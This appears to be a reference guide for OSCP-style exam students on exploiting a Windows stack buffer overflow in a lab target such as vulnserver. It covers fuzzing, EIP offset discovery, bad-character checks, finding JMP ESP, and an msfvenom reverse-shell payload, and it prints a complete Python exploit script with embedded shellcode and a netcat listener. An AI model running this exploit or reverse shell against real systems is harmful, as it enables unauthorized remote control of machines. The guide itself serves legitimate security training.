









# Overview

This guide is written purely as a reference guide for students doing their OSCP, eCPPTv2 or similar exam formats. I leaned heavily on this guide during my exams. The guide is not a comprehensive explanation of Buffer Overflow concepts and should not be considered a substitute for such. This reference guide was developed from material gathered from the following sources:

- [TCM Bufferflow guide](https://www.youtube.com/watch?v=ncBblM920jw)
- [TryHackMe - Buffer Overflow Exploitation path](https://tryhackme.com/paths)
- [liodeus BO cheatsheet](https://liodeus.github.io/2020/08/11/bufferOverflow.html)

# Prerequistes

In order to follow this guide, the following is required:

- [Kali Linux VM or alternative](https://www.kali.org/get-kali/)
- [Windows 7 x86 Virtual machine](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- [Mona modules for Immunity Debugger](https://github.com/corelan/mona)
- Vulnerable executable for testing e.g ([vulnserver](https://github.com/stephenbradshaw/vulnserver) or similar)

The Windows 7 VM and Kali VM should be configured on the same network with static IP's for testing.

# The Process

After installing the prequisite software, you can now begin to test the buffer overflow process using a vulnerable executable of your choosing. This process works for most available vulnerable applications which are used for OSCP, eCPPTv2 preparation.

## Step 1. Fuzzing & Spiking

Run the vulnerable application in the Windows 7 VM as admin. Using netcat, determine if the program has any commands that are available for execution. If a command is required before sending the overflow string, use the 'prefix' variable within the script to set this. (e.g prefix = "TRUN /.:/" for vulnserver.exe)



Use the [fuzzInitial.py](scripts/fuzzInitial.py) script to find whether or not the system can be fuzzed. This involves sending an incrementing number of bytes to a target function normally in the form of string characters such as "A". Make sure to replace the IP address & port in the script with the correct IP from the Windows VM

Rerun the application, start Immunity Debugger and attach the process. Use the fuzzInitial.py script again to crash the program. Once crashed, you should see Immunity has paused the application and some of the Registers have been overwritten. EIP is not always overwritten in this case but you will normally see the hex value for ASCII "A" characters in the registers



## Step 2. Locating the offset

Now that we know the registers can be overwritten, we need to determine at what byte offset the EIP register is. Although using "A"s gives us an idea that it can be overwritten, we need to figure out at what point. To do that we need a string longer than the point where the program previously crashed. The string needs to have non-repeating characters so that there is no confusing it with other values within the string. These values will then be written as hex into EIP. 

To do this we will use a program called `pattern_create` which is installed on Kali and part of the Metasploit framework. For our example, we'll say our program crashed at 2000 bytes, so we'll need something a bit longer. Let's go with 2500 bytes. To generate this we will use:

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500`

Next we'll replace our "A" characters within the program for this new string. We can do this in our [fuzzOffset.py](scripts/fuzzOffset.py) script. Once you have crashed the program using the new string, you can use either of the following programs to find the offset

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q <valueInEIP>`

An easier method is to use the *mona* plugin. For quick installation instructions on mona, see [here](https://liodeus.github.io/2020/08/11/bufferOverflow.html)

`!mona findmsp -distance 2500`

Check the mona output for the offset value.



## Step 3. Confirming EIP location

This step basically means that you are overwriting EIP correctly. You can do this using [fuzzConfirmEIP.py](scripts/fuzzConfirmEIP.py) script. This fills the buffer all the way until it hits EIP with the character "A" and then uses "B" for EIP only. This allows us confirm that we are overwriting EIP correctly. The script runs correctly if you see 0x42424242 in the EIP register



## Step 4. Bad Characters

The concept of bad characters in its simplest form is that some functions of programs don't accept certain characters. These could be special characters or other types of input that aren't recognised by a program. So when generating an exploit, it's important to know which of these characters should be avoided. There are different methods of finding bad characters. Here are two methods

**Feeding the program**

This method involves sending a full list of all possible characters and comparing the output. We can do this with a complete list of ASCII characters in hex format which you can find [here](https://github.com/cytopia/badchars) and feed them into our fuzzBadCharsTest.py script

You need to take a look at the stack dump after EIP. Once the script has run, right click on ESP value in Immunity debugger and select "Follow the Dump". This will show you the list of characters as fed to the program. Any character which isn't listed correctly should be noted for exclusion from the later shellcode so it isn't used.

**Using mona to determine badchars**

A better way to determine bad characters is to allow the mona plugin to determine them. To do this you need to have done the following. 

1. Set up the directory for mona to store elements (c:\mona\vuln1\)
`!mona config -set workingfolder c:\mona\vuln1\`
2. Create a byte array for mona to compare to: (stores in c:\mona\oscp\bytearray.bin)
`!mona bytearray -b "\x00"`

Run [fuzzBadCharsTest.py](scripts/fuzzBadCharsTest.py) script inputting the details as before for IP, port, prefix and offset. Then run this mona command using the value from the ESP register after the script. This script includes all available characters for now. Use mona to check what the bad characters are

`!mona compare -f C:\mona\vuln1\bytearray.bin -a <valueInESP>`

You should get a list of possible badchars from mona, there may be no bad chars



TIP: TAKE NOTE OF THE BAD CHARACTERS!

Note above that there are 2 bytes together. Sometimes a badchar effects the byte next to it. So not all the bytes in this list are bad but we will remove them anyway for now. We need to generate a new byte array and remove all the suspected badchars

`!mona bytearray -b "\x00\x07\x2e\xa0"`

Change the [fuzzBadCharsRemoved.py](scripts/BadCharsRemoved.py) script removing the same characters as above from the payload variable and run the program again. Run the comparison to see if all badchars have been removed

`!mona compare -f C:\mona\vuln1\bytearray.bin -a <valueInESP>`

You should receive a message similar to below



## Step 5. Finding a JMP ESP

Next we need to find a JMP instruction to place in EIP. This will tell the program to jump to the memory location of our malicious program. To do this we need to look for this instruction in memory but exclude any badchars previously identified

`!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`

You can see here a list of memory locations and whether or not they have memory protection included



If the application itself does not have a jump instruction available that is coded within the application, there may be one available within DLLs which are called by it. To check this use

`!mona modules`

Look for a DLL that doesn't contain the application safeguards as above



Now look for a JMP instruction within that DLL e.g from above

`!mona find -s “\xff\xe4” -m SLMFC.DLL`

Use a DLL that has all of the safeguards disabled as above

When you are putting this value in EIP, remember that the **bytes need to be in reverse order** in as intel architecture has the least significant bit first. So 

0x625011af ⇒ 0xaf115062

or `\xaf\x11\x50\x62` in hex.

## Step 6. Generate the malicious payload

Lastly we want to generate a malicious set of instructions using *msfvenom*  that connects back to our attacker computer. To do this we use this command and specify our verified badchars which are excluded in the payload.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.11 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f python -v payload`

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes. In the [fuzzExploit.py](scripts/fuzzExploit.py) input all the parameters gathered through the whole process 

Your final script should look something like this

```python
#!/usr/bin/env python3

import socket, time, sys
from time import sleep

ip = "192.168.1.10" # Target

port = 9999             # Integer
timeout = 5               # Integer
return_value = "\r\n"     # Does the server take input that requires enter for input? Send empty if not required
offset = 2003
padding = "\x90" * 20

# Remember little Endian e.g 0x625011af becomes \xaf\x11\x50\x62
EIP = "\xaf\x11\x50\x62"

prefix = "TRUN /.:/"
string = "A" * offset

payload =  b""
payload += b"\xba\xbc\xb2\x76\x95\xda\xde\xd9\x74\x24\xf4\x5e"
payload += b"\x31\xc9\xb1\x52\x83\xee\xfc\x31\x56\x0e\x03\xea"
payload += b"\xbc\x94\x60\xee\x29\xda\x8b\x0e\xaa\xbb\x02\xeb"
payload += b"\x9b\xfb\x71\x78\x8b\xcb\xf2\x2c\x20\xa7\x57\xc4"
payload += b"\xb3\xc5\x7f\xeb\x74\x63\xa6\xc2\x85\xd8\x9a\x45"
payload += b"\x06\x23\xcf\xa5\x37\xec\x02\xa4\x70\x11\xee\xf4"
payload += b"\x29\x5d\x5d\xe8\x5e\x2b\x5e\x83\x2d\xbd\xe6\x70"
payload += b"\xe5\xbc\xc7\x27\x7d\xe7\xc7\xc6\x52\x93\x41\xd0"
payload += b"\xb7\x9e\x18\x6b\x03\x54\x9b\xbd\x5d\x95\x30\x80"
payload += b"\x51\x64\x48\xc5\x56\x97\x3f\x3f\xa5\x2a\x38\x84"
payload += b"\xd7\xf0\xcd\x1e\x7f\x72\x75\xfa\x81\x57\xe0\x89"
payload += b"\x8e\x1c\x66\xd5\x92\xa3\xab\x6e\xae\x28\x4a\xa0"
payload += b"\x26\x6a\x69\x64\x62\x28\x10\x3d\xce\x9f\x2d\x5d"
payload += b"\xb1\x40\x88\x16\x5c\x94\xa1\x75\x09\x59\x88\x85"
payload += b"\xc9\xf5\x9b\xf6\xfb\x5a\x30\x90\xb7\x13\x9e\x67"
payload += b"\xb7\x09\x66\xf7\x46\xb2\x97\xde\x8c\xe6\xc7\x48"
payload += b"\x24\x87\x83\x88\xc9\x52\x03\xd8\x65\x0d\xe4\x88"
payload += b"\xc5\xfd\x8c\xc2\xc9\x22\xac\xed\x03\x4b\x47\x14"
payload += b"\xc4\xb4\x30\x70\xdc\x5d\x43\x7c\xdd\x26\xca\x9a"
payload += b"\xb7\x48\x9b\x35\x20\xf0\x86\xcd\xd1\xfd\x1c\xa8"
payload += b"\xd2\x76\x93\x4d\x9c\x7e\xde\x5d\x49\x8f\x95\x3f"
payload += b"\xdc\x90\x03\x57\x82\x03\xc8\xa7\xcd\x3f\x47\xf0"
payload += b"\x9a\x8e\x9e\x94\x36\xa8\x08\x8a\xca\x2c\x72\x0e"
payload += b"\x11\x8d\x7d\x8f\xd4\xa9\x59\x9f\x20\x31\xe6\xcb"
payload += b"\xfc\x64\xb0\xa5\xba\xde\x72\x1f\x15\x8c\xdc\xf7"
payload += b"\xe0\xfe\xde\x81\xec\x2a\xa9\x6d\x5c\x83\xec\x92"
payload += b"\x51\x43\xf9\xeb\x8f\xf3\x06\x26\x14\x13\xe5\xe2"
payload += b"\x61\xbc\xb0\x67\xc8\xa1\x42\x52\x0f\xdc\xc0\x56"
payload += b"\xf0\x1b\xd8\x13\xf5\x60\x5e\xc8\x87\xf9\x0b\xee"
payload += b"\x34\xf9\x19"

try:
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect((ip, port))
      s.settimeout(timeout) # Helpful for stopping when overflow occurs
      print("Fuzzing with {} bytes".format(len(string)) + "and EIP as %s" % EIP)

      # Send buffer + EIP + payload + "press enter"
      s.send(bytes(prefix, "latin1") + bytes(string, "latin1") + bytes(EIP, "latin1") +  bytes(padding, "latin1") + payload + bytes(return_value, "latin1")) 
      s.recv(1024) 
      s.close()
except:
    print("Fuzzing crashed at {} bytes".format(len(string)))
    sys.exit(0)
```

Make sure to start up your netcat listener `nc -lvnp 4444` 

Start the executable without Immunity running. It should generate a reverse shell similar to below



# Troubleshooting

It's important to be able to understand why your BO attack isn't working. As this is only a reference guide, it's important to look into how buffer overflow works before attempting them. Interacting with the program manually through netcat is an excellent way to troubleshoot problems with scripts. Here are some problems I've encounter and what I did to resolve them

### The program won't crash and the script keeps sending incremental strings to the buffer without stopping
1. Try to determine if the program requires a command or other function *before* the buffer string using netcat
2. Send a long string manually. Use netcat to open the port and then copy the 'A's into the command line. You can generate these A'a using `python3 -c "print('A'*3000)" `. If you can't crash the program manually, you probably won't be able to do it through the script

### The program crashes but doesn't over write EIP with 0x41414141
This isn't a major concern initially, the test really comes when you try to overwrite EIP with 'BBBB'. However you can try the below to overwrite EIP also
1. Try to change buffer length from 100 to a larger number e.g 500


